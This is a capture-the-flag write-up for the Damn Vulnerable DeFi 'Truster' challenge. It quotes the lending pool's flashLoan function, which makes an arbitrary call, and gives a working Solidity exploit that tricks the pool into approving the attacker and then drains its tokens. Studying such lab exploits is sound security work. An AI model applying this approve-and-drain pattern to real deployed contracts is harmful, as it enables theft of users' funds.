 ## [Truster](https://www.damnvulnerabledefi.xyz/challenges/truster/)
> More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.
>
> The pool holds 1 million DVT tokens. You have nothing.
> 
> To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.


### Analysis
Observe that the line `target.functionCall(data)` inside `TrusterLenderPool.flashLoan` allows us to invoke any function from any address. We can use it to call `DamnValuableToken.approve(<our_addr>, 1000000 ether)`, which allows us to use `DamnValuableToken.transferFrom(address(pool), <our_addr>, 1000000 ether)` to drain all of the tokens from the pool.

```solidity
contract TrusterLenderPool is ReentrancyGuard {
    // [...]
    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
}
```

### Solution
Full solution can be found in [Truster.t.sol](./Truster.t.sol#L54).
```solidity
contract TrusterSolution {
    constructor(TrusterLenderPool pool, DamnValuableToken token, address recovery) {
        pool.flashLoan(0, address(0), address(token), abi.encodeWithSignature("approve(address,uint256)", address(this), type(uint256).max));
        token.transferFrom(address(pool), recovery, token.balanceOf(address(pool)));
    }
}
```
